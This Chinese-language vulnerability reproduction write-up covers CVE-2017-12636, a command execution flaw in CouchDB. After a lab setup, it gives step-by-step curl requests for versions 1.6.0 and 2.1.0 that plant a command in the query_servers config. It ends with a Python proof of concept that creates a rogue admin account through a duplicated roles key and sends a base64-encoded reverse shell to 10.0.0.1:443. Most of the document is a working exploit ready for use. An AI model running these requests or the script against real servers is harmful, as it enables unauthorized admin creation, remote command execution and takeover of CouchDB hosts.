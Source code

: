 （CVE-2017-12636）Couchdb 任意命令执行漏洞
==========================================

一、漏洞简介
------------

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config
api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

二、漏洞影响
------------

小于 1.7.0 以及 小于 2.1.1

三、复现过程
------------

### 环境搭建

Couchdb
2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)附带的环境。

执行如下命令启动Couchdb 1.6.0环境：

    docker-compose up -d

启动完成后，访问`http://www.0-sec.org:5984/`即可看到Couchdb的欢迎页面。

### 漏洞复现

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用**CVE-2017-12635**先增加一个管理员用户。

#### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
    curl -X POST 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

#### 2.1.0 下的说明

2.1.0中修改了我上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node
name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

    curl http://vulhub:vulhub@www.0-sec.org:5984/_membership

![](./resource/(CVE-2017-12636)Couchdb任意命令执行漏洞/media/rId29.png)

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

    curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'

![](./resource/(CVE-2017-12636)Couchdb任意命令执行漏洞/media/rId30.png)

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'

Couchdb
2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

    curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"

增加`_view`的同时即触发了`query_servers`中的命令。

### poc

> 修改其中的target和command为你的测试机器，然后修改version为对应的Couchdb版本（1或2），成功反弹shell：

![](./resource/(CVE-2017-12636)Couchdb任意命令执行漏洞/media/rId32.png)

    #!/usr/bin/env python3
    import requests
    import json
    import base64
    from requests.auth import HTTPBasicAuth

    target = 'http://your-ip:5984'
    command = rb"""sh -i >& /dev/tcp/10.0.0.1/443 0>&1"""
    version = 1

    session = requests.session()
    session.headers = {
        'Content-Type': 'application/json'
    }
    # session.proxies = {
    #     'http': 'http://127.0.0.1:8085'
    # }
    session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
      "type": "user",
      "name": "wooyun",
      "roles": ["_admin"],
      "roles": [],
      "password": "wooyun"
    }''')

    session.auth = HTTPBasicAuth('wooyun', 'wooyun')

    command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
    if version == 1:
        session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
    else:
        host = session.get(target + '/_membership').json()['all_nodes'][0]
        session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

    session.put(target + '/wooyun')
    session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

    if version == 1:
        session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
    else:
        session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')

参考链接
--------

> https://vulhub.org/\#/environments/couchdb/CVE-2017-12636/
